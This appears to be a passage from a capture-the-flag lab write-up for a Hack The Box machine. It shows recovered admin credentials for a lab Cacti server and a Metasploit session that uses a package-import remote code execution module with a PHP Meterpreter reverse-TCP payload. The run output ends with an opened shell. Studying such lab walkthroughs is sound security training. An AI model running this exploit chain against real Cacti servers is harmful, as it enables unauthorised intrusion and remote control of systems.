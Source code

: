 and we get the credentials for admin: **`admin` - `greencacti2001`**

--> We can use them to log in to `http://cacti.monitorsthree.htb`

==> Looking around we find a metasploit module for this that we can use to get a shell:

```bash
msf6 exploit(multi/http/cacti_package_import_rce) > options                                                                                                   
Module options (exploit/multi/http/cacti_package_import_rce):                                                                                                
   Name       Current Setting          Required  Description                                                                                                 
   ----       ---------------          --------  -----------                                                                                                 
   PASSWORD   greencacti2001           yes       Password to login with                                                                                      
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]                                                
   RHOSTS     10.129.174.107           yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html      
   RPORT      80                       yes       The target port (TCP)                                                                                       
   SSL        false                    no        Negotiate SSL/TLS for outgoing connections                                                                  
   TARGETURI  /cacti                   yes       The base URI of Cacti                                                                                       
   USERNAME   admin                    yes       User to login with                                                                                          
   VHOST      cacti.monitorsthree.htb  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.22      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP
   
msf6 exploit(multi/http/cacti_package_import_rce) > run

[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `admin` and password `greencacti2001`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
[*] Triggering the payload
[*] Sending stage (39927 bytes) to 10.129.174.107
[+] Deleted /var/www/html/cacti/resource/O0IthPpa.php
[*] Meterpreter session 1 opened (10.10.14.22:4444 -> 10.129.174.107:57650) at 2024-08-28 10:28:28 +0200

meterpreter > id
[-] Unknown command: id. Run the help command for more details.
```